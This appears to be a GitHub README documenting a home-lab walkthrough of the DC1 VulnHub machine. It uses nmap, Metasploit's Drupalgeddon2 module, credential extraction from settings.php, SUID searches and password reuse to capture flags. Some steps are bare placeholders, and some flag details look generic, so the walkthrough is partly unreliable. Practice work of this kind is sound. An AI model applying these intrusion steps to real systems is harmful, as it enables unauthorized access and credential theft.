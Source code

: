 # Home Hacking Lab: DC1 VulnHub Machine Exploitation

## Description
This section of the home hacking lab project focuses on downloading and exploiting the DC1 VulnHub machine. The primary objective is to practice and enhance cybersecurity skills through hands-on exercises in vulnerability scanning, exploitation, and post-exploitation techniques, culminating in the capture of multiple flags.

## Apps, Languages, & Utilities Used
- **Virtualization Software:** VirtualBox
- **Operating Systems:** Kali Linux, DC1 VulnHub machine
- **Security Tools:** Metasploit, nmap, Hydra, LinPEAS, MySQL
- **Scripting:** Bash

## Environments Used
- **Kali Linux:** Attacker Machine
- **DC1 VulnHub Machine:** Vulnerable VM

## Objective
The objective is to exploit the DC1 VulnHub machine by identifying and capturing flags, thereby gaining practical experience in cybersecurity concepts, tools, and techniques.

## Skills Learned
- Setting up VMs in Oracle VM VirtualBox.
- Performing vulnerability scanning using nmap.
- Exploiting web application vulnerabilities using Metasploit.
- Brute-forcing login credentials using Hydra.
- Capturing and analyzing database credentials.
- Performing privilege escalation and capturing flags on a vulnerable machine.
- Documenting and reporting exploitation techniques.

## Steps Taken

### Download and Setup DC1 VulnHub Machine

#### Download DC1 Machine from VulnHub
- Navigate to VulnHub and search for DC1 or go directly to the [DC1 VulnHub page](https://www.vulnhub.com/entry/dc-1,292/).
- Download the DC1 machine and extract the contents.

#### Import the DC1 Machine into VirtualBox
- Open VirtualBox and go to `File > Import Appliance`.
- Select the extracted DC1 file and follow the prompts to complete the import.

#### Configure Network Settings
- Adjust the network adapter to NAT Network and select the appropriate network.

#### Start the DC1 VM
- Boot up the DC1 VM and ensure it is running properly.

### Exploitation of DC1 VulnHub Machine

#### Flag 1: Initial Enumeration and Exploitation
**Objective:** Identify and capture the first flag by exploiting the web application.

##### Verify DC1 Machine is Running
- Ensure the DC1 machine is up and running by pinging its IP address:
  ```bash
  ping 10.0.200.6

### Information Gathering
- Perform an nmap scan to identify open ports and services:
`bash
nmap -A -sC -oN dc.txt 10.0.200.6`

### Enumerate the Web Application
- Access the web application running on port 80 and identify that it is using Drupal.
- Use Metasploit to find and exploit vulnerabilities in Drupal:
`bash
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
set RHOSTS 10.0.200.6
run`

### Capture Initial Flag
- Once you gain a shell, navigate the file system to find the first flag:
`bash
Copy code
find / -name flag1.txt
cat /path/to/flag1.txt`
Flag 1 Content: "Every good CMS needs a config file."

### Flag 2: Database Enumeration and Exploitation
Objective: Identify and capture the second flag by exploiting the database.

#### Identify Configuration Files
- Use the hint from Flag 1 to locate the Drupal configuration file:
`bash
cat /var/www/html/sites/default/settings.php`

##### Find Database Credentials
- Extract database credentials from the configuration file.

##### Connect to the Database
Use the credentials to connect to the MySQL database:
`bash
mysql -u dbuser -p`

##### Enumerate Database and Capture Flag
- Enumerate the database to find the second flag:
`bash
show databases;
use drupal;
show tables;
select * from flags;`
Flag 2 Content: "Brute force and directory attacks aren't the only way to gain access."

### Flag 3: Privilege Escalation and System Enumeration
Objective: Identify and capture the third flag by performing privilege escalation.

##### Identify Weak Configurations
Search for files with weak permissions or misconfigurations that could allow privilege escalation:
`bash
find / -perm -4000 -type f 2>/dev/null`

##### Exploit Weakness
Use tools like GTFOBins to escalate privileges:
`bash
/path/to/vulnerable_binary`

##### Capture Third Flag
Once privileges are escalated, navigate the file system to find the third flag:
`bash
find / -name flag3.txt
cat /path/to/flag3.txt`
Flag 3 Content: "There's more than one way to skin a cat."

### Flag 4: User Enumeration and Exploitation
Objective: Identify and capture the fourth flag by exploiting user credentials.

##### Enumerate Users
List all users on the system and look for interesting files in their home directories:
`bash
cat /etc/passwd
ls /home`

##### Check for Reused Passwords
Try using previously discovered passwords to switch to different users:
`bash
su - username`

##### Capture Fourth Flag
Navigate the user's home directory to find the fourth flag:
`bash
find /home -name flag4.txt
cat /path/to/flag4.txt`
Flag 4 Content: "You can use the same method to find or access the root flag."

### Final Flag: Root Privilege Escalation
Objective: Identify and capture the final flag by gaining root access.

##### Identify Privilege Escalation Vector
Look for misconfigurations or software vulnerabilities that allow root access.
Use tools like LinPEAS or manual enumeration to identify vectors.

##### Exploit and Gain Root Access
Perform the privilege escalation to gain root access:
`bash
/path/to/exploit`

##### Capture Final Flag
Navigate to the root directory and find the final flag:
`bash
cd /root
cat final_flag.txt`
Final Flag Content: "Well done! You have completed the DC1 challenge."
